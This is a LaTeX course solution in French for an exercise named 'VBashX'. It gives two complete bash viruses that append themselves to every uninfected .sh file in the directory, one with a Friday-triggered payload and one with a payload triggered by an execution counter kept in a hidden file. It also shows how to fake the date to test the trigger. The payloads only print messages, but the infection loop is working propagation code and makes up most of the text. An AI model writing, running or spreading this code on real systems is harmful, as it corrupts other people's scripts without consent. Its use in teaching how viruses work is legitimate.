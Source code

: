 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{correction}

\textbf{3a)} Virus avec charge utile temporelle (vendredi) :
\begin{lstlisting}[title=vbashx\_phase3a.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3a --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=15
# Payload: triggered on Friday (day 5)
if [ "$(date +%u)" -eq 5 ]; then
    echo "[VBashX] PAYLOAD ACTIVATED - Today is Friday!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
        fi
    fi
done
\end{lstlisting}

\textbf{3b)} Virus avec charge utile par compteur :
\begin{lstlisting}[title=vbashx\_phase3b.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 3b --- VBX_7k9Pz
MARKER="VBX_7k9Pz"
VIRUS_SIZE=23
COUNTER_FILE=".vbx_count"
# Increment execution counter
if [ -f "$COUNTER_FILE" ]; then
    COUNT=$(cat "$COUNTER_FILE")
    COUNT=$(($COUNT + 1))
else
    COUNT=1
fi
echo $COUNT > "$COUNTER_FILE"
# Payload: triggered after 3 executions
if [ $COUNT -ge 3 ]; then
    echo "[VBashX] PAYLOAD: Execution count reached $COUNT!"
fi
# Infection phase
for f in *.sh; do
    if [ "$(basename "$f")" != "$(basename "$0")" ]; then
        if [ -z "$(grep "$MARKER" "$f")" ]; then
            tail -n $VIRUS_SIZE "$0" >> "$f"
    fi; fi
done
\end{lstlisting}

\textbf{3c)} Pour tester le déclencheur vendredi sans attendre, on peut utiliser \texttt{date -d} pour simuler une date :
\begin{lstlisting}[numbers=none]
# Remplacer temporairement dans le script :
# if [ "$(date +%u)" -eq 5 ]; then
# par :
if [ "$(date -d 'next Friday' +%u)" -eq 5 ]; then
# Ou bien definir une fonction date() qui retourne une date simulee :
date() { echo "5"; }
\end{lstlisting}
On peut aussi modifier temporairement la date système dans une VM : \texttt{sudo date -s "next Friday"}.

\begin{pointcle}
\begin{itemize}
    \item \texttt{date +\%u} retourne le jour de la semaine sous forme numérique (1=lundi, 7=dimanche).
    \item Les fichiers cachés (commençant par \texttt{.}) permettent de \textbf{persister un état} entre les exécutions du virus sans être visibles par \texttt{ls}.
    \item La séparation entre \textbf{infection} et \textbf{payload} est un principe architectural important : le virus se propage indépendamment du déclenchement de la charge utile.
\end{itemize}
\end{pointcle}


\end{correction}
\end{exercice}
\end{document}
